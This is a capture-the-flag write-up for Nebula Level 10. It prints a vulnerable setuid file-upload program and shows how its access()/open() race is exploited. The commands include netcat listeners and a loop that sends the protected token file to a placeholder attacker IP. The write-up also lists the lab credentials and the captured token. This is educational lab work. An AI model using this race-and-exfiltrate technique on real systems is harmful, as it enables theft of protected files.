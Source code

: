 ```yaml
---
author: Josh Genao
Date: 2023-01-10
Category:
Tags:
---
```


# Level-10
## Description
The setuid binary at **/home/flag10/flag10** binary will upload any file given, as long as it meets the requirements of the _access()_ system call.

```
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```
## Setup
SSH into the Nebula VM using the following credentials:

```
username: level10
password: level10
```
## Summary
Looking at the code, we notice that there is a call to  `access(argv[1], R_OK)`

Looking at the notes section of the `access()` documentation, we will notice
```
Warning:  Using  access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and
opening the file to manipulate it.  For this reason, the use of this system call should be avoided.
```

So this function is vulnerable to time-to-check to time-to-use (TOCTOU) [^1]

We can exploit this by changing the file  during the "Vulnerable Interval" from one that will pass the "Time of Use"  check to the one that won't. We need to get access to the token file, but as we see we do not have read access to that file.

![](../imgs/Pasted%20image%2020230113095908.png)

What we can do is run a bash command that will switch the links between the file we have access to and the one we don't

![](../imgs/Pasted%20image%2020230113092947.png)

On the attacker machine, let's open a listen port on **18211** 
```
nc -nlvkp 18211
```
Where the -k command keeps listening after a connection is complete

For some reason my machine would terminate the connection once a connection has been established. So I did the following command to remain persistant on the port 18211
```
while true; do nc -nlvp 18211; done
```

On the Nebula box, we run the following command:

```
for i in {1..10000}; do /home/flag10/flag10 /home/level10/exploit [ATACKER_IP]]; done
```

On the attacker machine, wait until the symlink to the token pass the "Time of Use" check

![](../imgs/Pasted%20image%2020230113093348.png)

Bingo! We got the token :

```
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```

Now that we have the token, lets login using the data above

```
level10@nebula:~$ su - flag10
Password:
```

## Flag

![](../imgs/Pasted%20image%2020230113093641.png)
## References
[1]: https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use
